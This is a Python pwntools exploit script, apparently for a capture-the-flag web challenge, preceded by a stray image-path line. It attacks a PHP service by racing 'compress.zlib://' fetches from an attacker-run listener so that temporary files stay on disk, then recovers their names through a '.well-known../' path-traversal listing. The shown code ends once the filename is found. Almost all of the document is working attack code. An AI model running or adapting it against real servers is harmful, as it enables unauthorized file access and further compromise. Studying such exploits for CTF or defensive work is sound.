 exp

```python
# from https://gist.github.com/ZeddYu/42159da911e82dba923b375a9f64ad65
from pwn import *
import requests
import re
import threading
import time


for gg in range(100):

    r = remote("192.168.34.1", 8004)
    l = listen(8080)
    
    data = '''name={}&file=compress.zlib://http://192.168.151.132:8080'''.format("a"*8050)

    payload = '''POST / HTTP/1.1
Host: 192.168.34.1:8004
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
Content-Length: {}
Content-Type: application/x-www-form-urlencoded
Connection: close
Cookie: PHPSESSID=asdasdasd
Upgrade-Insecure-Requests: 1
{}'''.format(len(data), data).replace("\n","\r\n")


    r.send(payload)
    try:
        r.recvuntil('your sandbox: ')
    except EOFError:
        print("[ERROR]: EOFERROR")
        # l.close()
        r.close()
        continue
    # dirname = r.recv(70)
    dirname = r.recvuntil('\n', drop=True) + '/'

    print("[DEBUG]:" + dirname)

    # send trash
    c = l.wait_for_connection()
    resp = '''HTTP/1.1 200 OK
Date: Sun, 29 Dec 2019 05:22:47 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 534
Content-Type: text/html; charset=UTF-8
{}'''.format('A'* 5000000).replace("\n","\r\n")
    c.send(resp)


    # get filename
    r2 = requests.get("http://192.168.34.1:8004/.well-known../"+ dirname + "/")
    try:
        tmpname = "php" + re.findall(">php(.*)<\/a",r2.text)[0]
        print("[DEBUG]:" + tmpname)
    except IndexError:
        l.close()
        r.close()
        print("[ERROR]: IndexErorr")
        continue
```